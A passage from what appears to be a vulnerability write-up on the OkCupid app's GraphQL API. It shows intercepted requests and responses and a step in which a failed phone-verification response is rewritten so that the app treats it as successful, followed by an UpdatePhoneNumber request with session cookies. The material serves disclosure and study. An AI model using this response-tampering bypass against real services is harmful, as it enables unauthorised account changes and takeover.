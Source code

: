 ```
    "data":{
        "authTSPRefreshTokenCreate":null
    },
    "extensions":{
    }
}

```
So we need to change the response, that it looks like the verification was successful. Changing it to following response should do the job:
```
HTTP/2 200 OK
Date: Sat, 04 Jun 2022 09:28:42 GMT
Content-Type: application/json; charset=utf-8
X-Powered-By: Express
Vary: Origin, Accept-Encoding
Vary: Accept-Encoding
Access-Control-Allow-Credentials: true
Etag: W/"20b-apZNTJoeVwK6QYZENYGytWrrtD8"
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Strict-Transport-Security: max-age=15552000; includeSubDomains; preload
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 715fa3ce6f8f38b0-VIE

{
    "errors":[
        {
            "message":"0 AUTHENTICATED",
            "locations":[
                {
                    "line":1,
                    "column":73
                }
            ],
            "path":[
                "authTSPRefreshTokenCreate"
            ],
            "extensions":{
            }
        }
    ],
    "data":{
        "authTSPRefreshTokenCreate":null
    },
    "extensions":{
    }
}
```
Now the app wants to update the phone number and checks, if it was successful
```
POST /graphql/UpdatePhoneNumber HTTP/2
Host: okcupid.com
Cookie: override_session=0; secure_login=1; secure_check=1; guest=7499627801677657669; session=7499627801677657669%3A16707096719338247505; authlink=158b116f; _fbp=fb.1.1652979626229.695918336; nano=k%3Diframe_prefix_lock_3%2Ce%3D1653930142760%2Cv%3D1%7Ck%3Diframe_prefix_lock_2%2Ce%3D1653650365181%2Cv%3D1%7Ck%3Diframe_prefix_lock_1%2Ce%3D1652979653689%2Cv%3D1%7Ck%3Diframe_prefix_lock_-1%2Ce%3D1653930218437%2Cv%3D1
Accept: application/json
X-Apollo-Operation-Id: 706c24c6f60c764605db4e932c1ccdc80020cc928b1111bcc0a14531d265811e
X-Apollo-Operation-Name: UpdatePhoneNumber
X-Okcupid-Device-Id: Android; AOSP on IA Emulator; 9; PSR1.180720.117; Unavailable; fwciLTsdTECsUopudsdVN0;
```